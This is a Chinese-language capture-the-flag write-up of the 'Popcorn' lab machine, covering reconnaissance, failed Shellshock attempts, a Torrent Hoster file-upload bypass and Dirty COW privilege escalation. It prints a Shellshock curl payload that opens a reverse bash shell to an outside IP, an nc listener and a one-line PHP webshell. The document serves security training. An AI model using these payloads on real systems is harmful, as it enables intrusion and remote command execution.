 ```yaml
---
title: Popcorn（文件上传）
categories:
- training
tags:
- training
---
```


## scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
PHP/5.2.10-2ubuntu6.10
```
## web
先检查破壳漏洞，然后检查/test目录泄露的信息
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/1.PNG)
```
获取的信息：
Server Administrator 
webmaster@localhost 

web路径：/etc/apache2
	/var/www/test.php 

服务：/var/run/mysqld/mysqld.sock 

http://10.10.10.6/test/index.php

http://10.10.10.6/torrent/database/
-- Database: `torrenthoster`
```
burp scanner扫描了一遍，发现了几个漏洞，好像不能利用
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/12.PNG)

#### trying1: 低版本openssh

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/2.PNG)

#### trying2: 破壳漏洞检查

[CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
searchsploit shellshock

PHP < 5.6.2 - 'Shellshock' Safe Mode / Disable Functions Bypass / Command Injection                         | exploits/php/webapps/35146.txt
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                               | exploits/cgi/webapps/34895.r
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/3.PNG)
没有任何反应

#### trying3: 破壳漏洞检查2
http://10.10.10.6/test/
```
nc -lnvp 666

curl –H 'x: () { :;}; /bin/bash –i >& /dev/tcp/10.10.14.13/666 0>&1' http://10.10.10.6/test/
```
同样失败

#### trying4: 发现web目录
被漏洞扫描软件给坑了。不管有没有破壳漏洞，先扫描一下目录

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/4.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/5.PNG)

exploit db上搜索一下Torrent Hoster。

[Torrent Hoster Remont Upload Exploit](https://www.exploit-db.com/exploits/11746)

 sql注入检测被网站黑名单发现
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/11.PNG)

做信息搜集发现的信息：
```
MySQL db        http://10.10.10.6/torrent/comment
```
#### trying5: 准备上传

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/6.PNG)
先随便上传一个txt，提示说明必须要是torrent文件，但是我们想要上传php类型webshell。

1. 上传torrent文件，burp---send to repeater，得到文件类型等信息。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/7.PNG)

2. 
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/8.PNG)
主面板获得上传的文件的路径。
http://10.10.10.6/torrent/torrents.php?mode=download&id=06aceda1226df400b0506aa813688f45309318a6

3.
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/9.PNG)
尝试替换为php反弹脚本，提示不是有效的torrent文件。

4. 

查看msfvenom能否生成torrent类型的载荷。

`msfvenom -l formats | grep torrent`

5.尝试在上传torrent时，同时上传一句话木马。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/10.PNG)
生成了1.PNG.torrent

<?php @system($_POST["cmd"])?>

6.尝试在修改screenshot，上传反弹木马
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/13.PNG)
先注册账号，然后登陆。

随便上传一个torrent，然后点击edit the torrent。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/14.PNG)

替换图片内容为php-reverse-shell，名称后缀改为6.png.php

nc监听本地地址。

访问上传的路径：
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/15.PNG)

上传php反弹webshell失败，权限不够。

7. 和上一步差不多，上传一句话，而不是php反弹脚本
![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/16.PNG)

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/17.PNG)

## 提权
`uname -a`

发现linux内核为2.6.x，于是dirty cow提权。
![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/19.PNG)

值得一提的是
```
./a.out

Please enter the new password: a
```

然后就卡了有将近一分钟吧，还以为提权执行失败了（，，）下回要耐心等待。

## 总结：

以后遇到这种情况，测试方法

- 某cms，先查找以往漏洞。
- 确定输入点，挨个测试一遍。（当时一直在测torrent上传，没想到漏洞在更改图片那里）
- 上传漏洞需要找到上传的文件的路径。
一般要结合**路径遍历漏洞**。例如在这个cms，如果像下图一样，只是说明上传成功了，但是没有给出上传的地址（一般来说也没有必要）。

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/18.PNG)

